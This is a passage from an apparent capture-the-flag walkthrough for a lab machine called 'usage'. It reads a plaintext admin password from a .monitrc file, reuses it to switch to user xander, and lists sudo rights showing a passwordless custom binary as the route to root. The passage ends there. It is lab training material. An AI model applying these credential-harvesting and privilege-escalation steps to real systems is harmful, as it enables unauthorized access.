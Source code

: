There's a password `3nc0d3d_pa$$w0rd` in `.monitrc`

```bash
dash@usage:~$ cat .monitrc

#Monitoring Interval in Seconds
set daemon  60


#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd


#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert



#System Monitoring
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

### Password reuse

```bash
dash@usage:~$ su - xander
Password:3nc0d3d_pa$$w0rd
xander@usage:~$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
```

## From xander to root


### SUDO - Custom C binary

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
